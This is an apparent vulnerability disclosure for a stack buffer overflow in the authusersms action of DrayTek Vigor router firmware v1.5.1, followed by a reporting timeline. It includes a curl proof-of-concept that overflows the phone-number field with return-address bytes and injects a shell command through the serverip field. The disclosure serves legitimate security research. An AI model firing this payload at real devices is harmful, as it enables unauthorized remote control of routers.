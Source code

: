#  a stack buffer over Vulnerability in DrayTek vigor2960，3900，300B in version v1.5.1,The vulnerability allows to execute remote code by unauthorized attacker

the vuln was in mainfunction.cgi .Action of authusersms.

vulnerabilities is stack-base buffer overflows while copying user parameters  formuserphonenumber  to static buffer.

![](./q.jpg)

Attacker can use this vuln to control the devices.

**poc**

```

curl -d "action=authusersms&custom1=1;&custom2=1&custom3=1&formuserphonenumber=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xEC\xC7\x01&URL=www.baidu.com&HOST=123456897&serverip=";ls;echo 'pwn it';&filename=pwn" -X POST http://192.168.0.250/cgi-bin/mainfunciton.cgi

```

**success images**
![](./1.png)
![](./2.png)

**time lines**

It's bug have been report to DrayTek,they confirm it and ask me to request CVE'id by myself acorrding to the github.

04/12/2020 report vuln to DreyTek

04/13/2020 DreyTek confirm it

04/17/2020 DreyTek fixed it and give me a beta version

06/18/2020 DreyTek release a new version.

![](./4.png)

